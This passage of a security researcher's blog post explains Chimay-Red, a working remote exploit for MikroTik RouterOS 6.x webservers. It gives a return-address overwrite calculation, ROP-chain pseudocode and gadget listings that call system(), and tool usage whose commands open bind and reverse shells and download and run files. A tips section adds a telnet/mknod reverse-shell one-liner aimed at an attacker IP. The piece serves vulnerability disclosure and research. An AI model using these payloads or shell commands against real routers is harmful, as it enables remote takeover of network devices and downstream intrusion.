
return address overwrite calculation eg:
ADDR_SIZE = 8
SAFE_SPACE = 0x1000
THREAD_STACK_SIZE = 0x20000
PAYLOAD_LEN = len(payload) # 0x8000
>>> hex(((THREAD_STACK_SIZE + SAFE_SPACE + PAYLOAD_LEN) - PAYLOAD_LEN) - ((SAFE_SPACE - 0x10) & 0xFFFFFFF0) - ADDR_SIZE)
'0x20008'
ROP
Note: I'll only be explaining the ROP technique for the x86 architecture, as explaining all the techniques would be a blog post in itself. This technique was originally discovered by GitHub user wxsarcher for RouterOS 6.x at BigNerd's version of Chimay-Red. At the time of researching this vulnerability I was not aware of the efforts by BigNerd to also uncover the bug, so big props to BigNerd for being the first (that I can see) to release a working PoC for Chimay-Red! I recommend everyone go and checkout his exploit stuff for Chimay-Red as well, and if you can help him support more architectures, the project is in need of additional architecture research.
Psuedocode for technique to execute: ls -la
system_chunks = [134512899, 134513152, 134512899, 134512854, 134514868, 134514240, 134512693]
# ("s", "y", "s", "t", "e", "m", "\x00")
cmd_chunks = [134512885, 134512899, 134512682, 134512891, 134512885, 134516284, 134512693]
# ("l", "s", " ", "-", "l", "a", "\x00")
writable_segment_addr = 134514680
jmp_eax = 134514248
char_size = 1
command = bytes()
char_pointer = 0
for address in system_chunks:
command += rop.call(<strncpy>, args=(<writeable_segment_addr> + char_pointer, address, char_size))
char_pointer += 1
system = bytes()
char_pointer = 0
for address in cmd_chunks:
system += rop.call(<strncpy>, args=((<writeable_segment_addr> + (len(system_chunks) + addr_size) + char_pointer, address, char_size))
char_pointer += 1
|<<<< rop.call(<dlsym>, args=(0, system))
|
| Note: [EAX] = resultant pointer of dlsym() call
|
|>>>> rop.call(jmp_eax, args=(command,))
What it do?
-
First finds the address of a readable character for each character in the string "system\x00" and our desired command + "\x00" to be run by
system(). -
Next a
writeable_segment_addrin the binary address ranges is searched for to be able to writexamount of characters to viastrncpy(), (commonly thebsssection is used) wherex == len("system\x00"+command+"\x00") -
system_chunkscharacter addresses are then written to thewriteable_segment_addrusingstrncpy(), incrementing thewriteable_segment_addr-char_pointercounter value each time a character is written. -
command_chunkscharacter addresses are then written to (writeable_segment_addr + len("system\x00") + addr_size) -
dlsym()in the binary PLT entry table is then called with the target symbol being the originalwriteable_segment_addrwhich should be pointing to> "system\0" -
The result of the call to
dlsym()now should be a pointer to thesystem()function. This pointer is returned in EAX and jumped to with ajmp eaxgadget with its argument register (EBP) set to (writeable_segment_addr+ len("system\x00") + addr_size) which should be pointing to> "ls -la\0"
Produced gadgets:
Writing "system\0":
0x0000: strncpy strncpy(134594588, 134512899, 1)
0x0004: 0x805212e <adjust: pop esi; pop edi; pop ebp; ret>
0x0008: 0x805c01c arg0
0x000c: 0x8048103 arg1
0x0010: 0x1 arg2
<snip>
Writing "ls -la\0":
0x008c: strncpy strncpy(134594604, 134512885, 1)
0x0090: 0x805212e <adjust: pop esi; pop edi; pop ebp; ret>
0x0094: 0x805c02c arg0
0x0098: 0x80480f5 arg1
0x009c: 0x1 arg2
<snip>
Calling dlsym() & jmp_eax():
0x0118: dlsym dlsym(0, 134594588)
0x011c: 0x804ffd9 <adjust: pop ebx; pop ebp; ret>
0x0120: 0x0 arg0
0x0124: 0x805c01c arg1
0x0128: jmp_eax jmp_eax(134594604)
0x012c: b'zaad' <pad>
0x0130: 0x805c02c arg0
Result: system("ls -la")
Once the ROP chain has been built and packed for the given endianess, it can be sent during the payload stage as seen in the earlier procedure when abusing alloca(). Each gadget in the chain should be executed thanks to our return address overwrite earlier.
MikroDB
MikroDB is a sister application to Chimay-Red that allows easier portability and extendability of the exploit toolkit. its what allows hundreds of different types of ROP chains to be built without having access to the target binary itself; and it does this through a process like so:
- Enumerates all stable vulnerable RouterOS
6.xversions available for download from MK's archive for all architectures by bruteforcing version numbers via HEAD requests. - Downloads all enumerated firmware images into a storage directory.
- Catalogs the filename and SHA256 hash of the firmware file into a local SQLite database file.
- Decompresses and extracts the webserver binary
wwwfrom the SquashFS filesystem stored within NPK firmware image. - Stores and catalogs the filename and SHA256 hash of the
wwwwebserver binary into the SQLite database file. - For each webserver binary extracted, the file is ran through a ROP chain building process and information for building selected ROP-chain repeatably is stored in the SQLite database file.
Once MikroDB is finished its process, it can be portably used with Chimay-Red to build ROP-chains on the fly thanks to the stored offsets in the database, instead of downloading and extracting and storing 5GB+ of FW images in-order to facilitate attacking any version and architecture. This 500KB database can be built once in only a couple hours and kept forever. For your convenience, a prebuilt database is included in the source code repository for this project!
MikroDB was able to enumerate 352 vulnerable versions (as of writing this, it fluctuates oddly..) across all of their supported architectures, a table is represented below showing vulnerable versions available per architecture:
| Architecture | # Vulnerable versions |
|---|---|
| x86 | 56 |
| ARM | 45 |
| POWERPC | 57 |
| SMIPS | 56 |
| MMIPS | 25 |
| MIPSBE | 57 |
| TILE | 56 |
MikroDB in action against x86: (skip through)
Wrapping it all together
Usage:
usage: chimay_red.py [-h] -t TARGET [-s] [-d] [--architecture ARCHITECTURE]
[--gdbport GDBPORT] [--binary BINARY]
[--shellcode SHELLCODE] [--vector VECTOR]
[--leakrounds LEAKROUNDS] [-v] [--version]
command
positional arguments:
command command function to run on target, see below for
options
optional arguments:
-h, --help show this help message and exit
-t TARGET, --target TARGET
target address:port
-l LHOST, --lhost LHOST
local address to bind to for listening for connectback commands
-s, --shell return interactive shell as main payload (default)
-d, --debug enable debugging mode
--architecture ARCHITECTURE
target architecture (will detect automatically if
target in route table range)
--gdbport GDBPORT port to use when connecting to remote gdbserver
--binary BINARY target binary (www)
--shellcode SHELLCODE
custom (optional) shellcode payload binary filepath
--vector VECTOR optional vector type, see below for options
--leakrounds LEAKROUNDS
amount of rounds to leak pointers, higher is better,
but takes more time
-v, --verbose Verbosity mode
--version show program's version number and exit
commands:
COMMAND FUNCTION
bindshell create a bindshell
connectback create a reverse shell
download_and_exe connect back and download a file to then execute
ssl_download_and_exe connect back and download a file via SSL to then execute
write_devel write "devel-login" file to allow developer account login
write_devel_read_userfile in addition to enabling developer logins, read back the users file
custom_shellcode run arbitrary shellcode from `--shellcode` binfile
custom_shell_command run a arbitrary $sh one liner on the target
vectors:
default: (mikrodb)
[Generic]
mikrodb:
use the accompanying mikrodb database to load offsets
based off of detected remote version to build a ROP chain.
build:
build a ROP chain from scratch given the www binary matching
the remote version running.
[Experimental]
brute: bruteforce uclibc base offset.
leak:
leak pointers from shared libraries to give better odds of
finding base offset of uclibc.
examples:
./chimay_red.py connectback --target 192.168.56.124:80 --lhost=192.168.56.1 --vector=mikrodb
./chimay_red.py connectback -d --target 192.168.56.124:80 --lhost=192.168.56.1 --vector=build --binary $PWD/www --gdbport 4444
==================================================
| _______ _ ___ __|
| / ___/ / (_)_ _ ___ ___ ______/ _ \___ ___/ /|
|/ /__/ _ \/ / ' \/ _ `/ // /___/ , _/ -_) _ / |
|\___/_//_/_/_/_/_/\_,_/\_, / /_/|_|\__/\_,_/ |
| /___/ |
==================================================
Additional tips & tricks
Getting a reverse shell without existing telnet access for devel-login
mknod /tmp/pipe p;telnet <attacker_ip> <attacker_port></tmp/pipe|bash>/tmp/pipe
This command creates a READ|WRITE fifo-file pipe in memory using mknod and redirects the standard-in and out of bash to the pipe and out through telnet.
Sending text to the LCD
"echo hello world > /dev/lcd"

image courtesy of BigNerd - Chimay-Red Github
{kind=link}
See it live!
Chimay-Red in action:
Chimay-Red in debug mode:
Conclusions & Future Work
So did I accomplish my goals in the end? Well almost.
In the end I was able to exploit every stable release version for all architectures except TILE and ARM. Now you are probably wondering, "what the hell is TILE". It is for that specific reason why I was unable to support TILE. As for ARM, I have not had enough time to go through and test the ROP builder for ARM as of yet, but I hope to fully support the architecture soon.
I was also unable to complete the command for custom_shellcode as I am not able to get a mprotect ROP-chain working for all architectures and versions.
As for "Containerize and optionally emulate any system firmware for fuzzing and testing", I will be going over how to containerize and mass deploy swarms of RouterOS systems via Docker and libvirt in a later post so stay tuned :).
Ideas that didn't work:
I attempted to leak pointers from the heap by using a content-length of zero and sending small amounts of data into istream::read(). This resulted in some valid addresses being leaked from various areas of the process memory, although I was unable to use it in any way to predict ASLR offsets because of a lack of predictability in the leaked addresses. If the leaked addresses were in fact predictable in terms of their location in the process memory in correlation to the other threads and library load order on some systems it could possibly allow ROP chains to be crafted on the fly without the need of the target source webserver binary version.
Chimay-Blue?
Recently MK has fallen victim to an 0day against its Samba service within RouterOS: CVE-2018-7445, allowing for remote code execution. I hope to continue to build upon my existing Chimay-Red framework to integrate it. This should allow me to expand the 6.x exploit set past 6.38.5 and up to 6.41.2.
Famous MK Forum Quotes:
"Also, it seems that this exploit may not be functional in RouterOS version above v6.30.1"
"After a thorough code review, we could not find anything hinting to the described issues."
In the end, a span of approximately four years elapsed since the vulnerability was introduced until the time it was fixed. Four years should be enough for multiple competent code reviews to catch a blatant integer overflow in a critical function like reading user POST data. The fact this small issue was not discovered and fixed for so long, leads myself and I'm sure others to believe MK doesn't do code reviews or does not complete them often. If you are reading this MK, maybe stop custom writing and maintaining your: Webserver, Samba Server, RADIUS server, SSH server, TELNET server, FTP server, etc. Clearly you can't.
References
- https://wikileaks.org/ciav7p1/cms/page_16384604.html
- https://wikileaks.org/ciav7p1/cms/page_16384512.html
- https://securelist.com/apt-slingshot/84312/
Software Used
Analysis: - IDA Pro - Binary Ninja - BinNavi
Exploit: - pwntools - GDB - GDB PEDA - GEF - Binutils Collection
Download
Chimay-Red and MikroDB are freely available for download on GitHub:
https://github.com/seekintoo/chimay-red
About the Author
Dayton Pidhirney is a Cybersecurity Researcher at Seekintoo. Dayton is an EE geek and is also Co-Founder of FirePick Services LLC., a maker-grade pick and place machine. Dayton's desk always has wires, screws, components and tools on it. Always. Seriously Dayton, clean your desk...
Comments, concerns, and corrections are welcome and not triaged by any marketing machine we are aware of: dpidhirney (at) seekintoo (dot) com